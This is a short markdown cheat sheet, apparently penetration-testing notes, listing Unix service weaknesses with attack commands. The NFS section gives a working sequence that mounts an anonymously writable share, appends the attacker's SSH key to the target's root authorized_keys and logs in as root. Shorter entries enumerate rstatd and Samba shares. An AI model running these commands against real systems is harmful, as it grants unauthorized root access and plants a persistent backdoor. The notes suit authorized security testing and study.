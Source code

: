 
# Unix


### NFS Shares Anonymous Mountable



```
showmount -e <target IP>

```




```
mkdir /tmp/mount
mount -t nfs -o nolock <target IP>:/share /tmp/mount/
cat /root/.ssh/id_rsa.pub >> /tmp/mount/root/.ssh/authorized_keys
umount /tmp/mount
ssh root@<target IP>
```



### Rstatd enabled



```
rsysinfo <target IP>

```


### Samba with a writeable file share



```
smbclient -L //<target IP>

```

